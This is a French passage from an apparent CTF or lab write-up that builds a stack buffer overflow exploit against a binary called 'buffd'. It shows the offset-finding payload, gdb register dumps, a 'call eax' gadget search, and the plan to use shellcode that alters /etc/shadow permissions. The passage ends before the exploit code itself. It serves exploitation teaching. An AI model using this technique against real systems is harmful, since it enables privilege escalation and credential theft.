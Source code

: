 On a bien le contrôle sur EIP. Que se passe-t-il si on varie un peu les caractères ?  

On envoie le résultat de la commande Python suivante :  

```python
print "A"*124 + "B" * 4 + "C" * 4 + "D" * 4 + "E" * 4 + "F" * 4
```

Cette fois le résultat est particulièrement instructif :  

```
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) info registers
eax            0xfffc0c90       -258928
ecx            0xfffc0df0       -258576
edx            0xfffc0d1c       -258788
ebx            0xf770d000       -143601664
esp            0xfffc0d10       0xfffc0d10
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0x42424242       0x42424242
eflags         0x10202  [ IF RF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb) x/x $esp
0xfffc0d10:     0x43434343
(gdb) x/x $eax
0xfffc0c90:     0x41414141
```

On voit qu'il faut 124 caractères avant d'écraser l'adresse de retour. On remarque aussi que `eax` contient une adresse qui pointe idéalement vers le début de notre buffer :)  

On va donc chercher un gadget dans le binaire du type `jmp eax` ou `call eax` qui nous donnera un point de relais stable vers notre shellcode. `objdump` à la rescousse !  

```console
$ objdump -d buffd | egrep '.*call.*eax$'
 804898f:       ff d0                   call   *%eax
 8048efb:       ff d0                   call   *%eax
```

Bingo !  

On écrit un petit exploit qui utilise un shellcode trouvé sur *shell-storm*. [Le shellcode utilisé ici](http://shell-storm.org/shellcode/files/shellcode-590.php) change simplement les droits sur `/etc/shadow`.  
